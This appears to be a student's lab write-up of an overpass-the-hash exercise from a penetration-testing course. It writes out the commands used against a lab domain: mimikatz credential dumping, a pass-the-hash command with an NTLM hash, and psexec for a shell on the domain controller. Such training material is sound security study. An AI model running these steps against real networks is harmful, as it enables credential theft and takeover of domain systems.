 ### 21.4.2.1 Exercise
#### 1. Execute the overpass the hash attack above and gain an interactive command prompt on the domain controller. Make sure to reboot the Windows 10 client before starting the exercise to clear any cached Kerberos tickets.

We can take a privileged user's NTLM hash, use it to generate a Kerberos TGT, then use that ticket to gain remote access to another server.  

1. Began with the compromised Windows machine, then used mimikatz to view cached credentials

   - In the lab, we simulated this opening Notepad, right click the task bar icon, then SHIFT+RIGHT click the notepad icon on the menu and choosing 'run as different user'

   ```powershell
   privilege::debug 
   sekurlsa::logonpasswords
   ```

   ![image-20200729133811001](.21.4.2.1.assets/image-20200729133811001.png)

2. Used mimikatz to convert the NTLM hash into a Kerberos ticket

   ```powershell
   sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:2892d26cdf84d7a70e2eb3b9f05c425e /run:PowerShell.exe
   ```

   ![image-20200729133857776](.21.4.2.1.assets/image-20200729133857776.png)
   This opened a Powershell command as the specified user.

3. In the new Powershell window, I verified there were no tickets already for jeff_admin:
   ![image-20200729133947051](.21.4.2.1.assets/image-20200729133947051.png)

4. I accessed a network share on DC01 to generate a ticket & viewed the tickets:

   ```powershell
   net use \\dc01
   ```

   ![image-20200729134050407](.21.4.2.1.assets/image-20200729134050407.png)

5. Used PSExec.exe to obtain code execution on DC01

   ```powershell
   .\psexec \\dc01 cmd.exe
   ```

   ![image-20200729134201438](.21.4.2.1.assets/image-20200729134201438.png)

